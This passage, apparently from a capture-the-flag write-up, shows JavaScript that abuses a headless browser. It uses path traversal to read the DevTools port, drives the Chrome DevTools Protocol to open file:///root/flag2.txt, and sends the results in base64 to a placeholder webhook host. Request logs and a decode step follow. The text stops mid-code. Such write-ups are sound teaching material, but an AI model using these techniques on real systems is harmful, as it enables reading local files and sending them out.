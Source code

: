 ```js
  
  ws.onclose = () => {
    fetch(`${webhook}?weclosed`);
  };
})();
```

We get our responses!
```
GET /a HTTP/1.1
GET /?weclosed HTTP/1.1
GET /?openedWS HTTP/1.1
GET /?received=eyJpZCI6MSwicmVzdWx0Ijp7InRhcmdldElkIjoiNjQ0RDkzQjAxRDgzODNCOURBMzEzNjdGODE0MzhBMDQifX0= HTTP/1.1
```

Base64 decoding the recieved data:
```bash
$ echo "eyJpZCI6MSwicmVzdWx0Ijp7InRhcmdldElkIjoiNjQ0RDkzQjAxRDgzODNCOURBMzEzNjdGODE0MzhBMDQifX0=" | base64 -d
{"id":1,"result":{"targetId":"644D93B01D8383B9DA31367F81438A04"}}
```
Yay! We get a `targetId` and we can now use that for a `Target.attachToTarget`!

```js
(async () => {
  let res = await fetch('http://localhost/logs../browser_cache/DevToolsActivePort', {
    cache: 'no-cache'
  });
  let text = await res.text();
  console.log(text);
  const lines = text.trim().split('\n');
  const port = parseInt(lines[0].trim(), 10);
  let path = lines[1].trim();
  const wsUrl = `ws://localhost:${port}${path}`;
  let ws;
  const webhook = `https://WEBHOOK/`
  
  ws = new WebSocket(wsUrl);
  let targetId = null;
  
  ws.onopen = () => {
    const createTargetCommand = {
      id: 1,
      method: 'Target.createTarget',
      params: { url: "file:///root/flag2.txt" }
    };
    ws.send(JSON.stringify(createTargetCommand));
    fetch(`${webhook}?openedWS`);
  };
  
  ws.onmessage = (event) => {
    const data = JSON.parse(event.data);
    fetch(`${webhook}?received=${btoa(event.data)}`);
    
    if (data && data.id === 1 && data.result && data.result.targetId) {
      targetId = data.result.targetId;
      fetch(`${webhook}?gotTargetId=${targetId}`);
      
      const attachCommand = {
        id: 2,
        method: 'Target.attachToTarget',
        params: { 
          targetId: targetId,
          flatten: true
```